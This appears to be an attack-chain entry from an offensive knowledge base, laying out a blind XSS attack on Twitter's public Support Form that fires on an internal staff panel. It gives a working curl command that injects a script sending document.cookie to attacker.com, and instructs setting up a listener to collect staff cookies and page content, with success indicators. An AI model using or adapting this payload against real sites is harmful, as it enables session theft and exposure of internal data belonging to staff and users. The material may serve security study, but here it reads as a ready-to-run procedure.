

---
tags:
  - xss
  - blind-xss
  - web-vulnerability
  - data-exfiltration
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/submit-xss-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Submit-XSS-Payload-via-Support-Form]]'
  - '[[procedures/Exfiltrate-Data-via-Blind-XSS]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploitation of a blind XSS vulnerability in Twitter's Support Form to execute
  malicious payloads on an internal Big Data panel, enabling potential
  exfiltration of sensitive information.
skill_level: intermediate
impact_level: high
id: 13ba091c-0a32-48cf-90d6-e23d03849aa6
created_at: '2025-12-14T00:11:16.798Z'
updated_at: '2025-12-14T00:11:16.798Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Blind XSS Exploitation in Twitter Support Form for Internal Data Exfiltration

## Overview

This attack chain demonstrates the exploitation of a blind XSS vulnerability in Twitter's Support Form, which targets an internal Big Data panel. The vulnerability arises from improper sanitization of user input, allowing malicious JavaScript payloads to be stored and executed when viewed by staff on an internal subdomain. The end goal is the potential exfiltration of sensitive internal Twitter information, such as user data or system details, by sending it to an attacker-controlled server.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None specific; basic web tools like a browser or curl for submission.

### Target Environment

- Platform: Web
- Services: Twitter Support Form and internal Big Data panel
- Network access: Public access to the Support Form

### Initial Access Requirements

- No credentials required for form submission
- Access to an attacker-controlled server for exfiltration

## Detailed Attack Procedures

### Step 1: Submit Malicious XSS Payload
procedure: [[procedures/Submit-XSS-Payload-via-Support-Form]]

**Objective**: Inject a stored XSS payload into the Support Form that will execute blindly when viewed by internal staff.

**Instructions**: Craft a malicious JavaScript payload designed to exfiltrate data, such as stealing cookies or page content, and send it to an attacker-controlled endpoint. Submit the payload through the Twitter Support Form using [[commands/submit-xss-payload]]:

```bash
curl -X POST https://support.twitter.com/forms -d 'message=<script>fetch("https://attacker.com/exfil?data=" + encodeURIComponent(document.cookie));</script>'
```

**Expected Output**: Confirmation of form submission; no immediate feedback due to blind nature.

**Success Indicators**:
- Form submission succeeds without errors
- Payload is stored for later viewing by staff

### Step 2: Blind Execution and Data Exfiltration
procedure: [[procedures/Exfiltrate-Data-via-Blind-XSS]]

**Objective**: Wait for the payload to execute in the context of the internal Big Data panel and receive exfiltrated data.

**Instructions**: Set up a listener on the attacker-controlled server to capture incoming data from the executed payload. The payload executes when staff views the support ticket on the internal subdomain, sending sensitive information like cookies or DOM content to the attacker's endpoint.

Monitor the server logs for incoming requests containing exfiltrated data.

**Expected Output**: HTTP requests to the attacker's server with encoded sensitive data in query parameters.

**Success Indicators**:
- Receipt of exfiltrated data on attacker server
- Confirmation of sensitive information exposure

## Attack Chain Summary

### Key Achievements

1. Successful injection of blind XSS payload via public Support Form
2. Execution on internal subdomain leading to data exfiltration
3. Potential access to sensitive internal Twitter information

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]
